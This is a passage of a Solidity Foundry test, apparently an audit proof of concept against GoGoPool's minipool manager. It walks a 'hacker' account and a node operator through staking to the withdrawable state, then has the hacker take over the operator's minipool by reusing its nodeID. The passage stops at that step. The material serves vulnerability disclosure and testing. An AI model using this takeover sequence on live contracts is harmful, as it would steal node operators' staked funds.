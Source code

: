     		dealGGP(nodeOp, ggpStakeAmt);
    
    		// fund ggAVAX
    		address lilly = getActorWithTokens("lilly", MAX_AMT, MAX_AMT);
    		vm.prank(lilly);
    		ggAVAX.depositAVAX{value: MAX_AMT}();
    		assertEq(lilly.balance, 0);
    
    		vm.startPrank(hacker);
    		// Hacker stakes GGP
    		ggp.approve(address(staking), ggpStakeAmt);
    		staking.stakeGGP(ggpStakeAmt);
    
    		// Create minipool for hacker
    		MinipoolManager.Minipool memory hackerMp = createMinipool(depositAmt, avaxAssignmentRequest, duration);
    		vm.stopPrank();
    
    		vm.startPrank(nodeOp);
    		// nodeOp stakes GGP
    		ggp.approve(address(staking), ggpStakeAmt);
    		staking.stakeGGP(ggpStakeAmt);
    
    		// Create minipool for nodeOp
    		MinipoolManager.Minipool memory nodeOpMp = createMinipool(depositAmt, avaxAssignmentRequest, duration);
    		vm.stopPrank();
    
    		// Rialto stakes both hackers and nodeOp in avalanche 
    		vm.startPrank(address(rialto));
    		minipoolMgr.claimAndInitiateStaking(nodeOpMp.nodeID);
    		minipoolMgr.claimAndInitiateStaking(hackerMp.nodeID);
    
    		// Update that staking has started
    		bytes32 txID = keccak256("txid");
    		minipoolMgr.recordStakingStart(nodeOpMp.nodeID, txID, block.timestamp);
    		minipoolMgr.recordStakingStart(hackerMp.nodeID, txID, block.timestamp);
    
    		// Skip 14 days of staking duration
    		skip(duration);
    
    		// Update that staking has ended and funds are withdrawable
    		minipoolMgr.recordStakingEnd{value: validationAmt + rewards}(nodeOpMp.nodeID, block.timestamp, 10 ether);
    		minipoolMgr.recordStakingEnd{value: validationAmt + rewards}(hackerMp.nodeID, block.timestamp, 10 ether);
    		vm.stopPrank();
    
    		/// NOW STATE: WITHDRAWABLE ///
    
    		vm.startPrank(hacker);
    		// Hacker creates a minipool using nodeID of nodeOp
    		// Hacker is now the owner of nodeOp minipool
    		minipoolMgr.createMinipool{value: depositAmt}(nodeOpMp.nodeID, duration, 0.02 ether, avaxAssignmentRequest);
    
